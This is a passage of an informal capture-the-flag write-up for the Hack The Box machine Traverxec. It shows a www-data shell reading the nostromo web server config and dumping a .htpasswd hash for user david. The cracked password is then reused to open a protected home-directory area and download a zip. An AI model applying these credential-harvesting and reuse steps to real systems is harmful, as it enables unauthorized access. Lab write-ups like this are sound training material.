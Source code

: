 ```console
www-data@traverxec:/var/nostromo$ export TERM=xterm
www-data@traverxec:/var/nostromo$ ls
conf  htdocs  icons  logs
www-data@traverxec:/var/nostromo$ cd conf/
www-data@traverxec:/var/nostromo/conf$ ls
mimes  nhttpd.conf
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf 
# MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html

# LOGS [OPTIONAL]

logpid			logs/nhttpd.pid

# SETUID [RECOMMENDED]

user			www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
```
why did I chack conf? because it is a configureation files, you always find something useful here. so password is at `/var/nostromo/conf/.htpasswd` and we found a user call `david@traverxec.htb`
```
www-data@traverxec:/var/nostromo/conf$ cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```
password to crack, Always do it on Colabcat!!. one more thig to note is when a web site have, `david:Nowonly4me`. I tried to ssh into the server with the cred, it didnt work
```
homedirs		/home
homedirs_public		public_www
```
that mean you can access home directory using `traverxec.htb/~`, I tried `traverxec.htb/~david/` and it works but still hit dead end. but **Ippsec** help me out, as always
```
www-data@traverxec:/var/nostromo$ cd /home/david/ 
www-data@traverxec:/home/david$ ls
ls: cannot open directory '.': Permission denied
www-data@traverxec:/home/david$ cd public_www
www-data@traverxec:/home/david/public_www$ ls
index.html  protected-file-area
```
I then visite `/david/public_www/protected-file-area/` it ask for a credential, I gave it `david:Nowonly4me` and we can see the zip file. download + unpack it.
```
```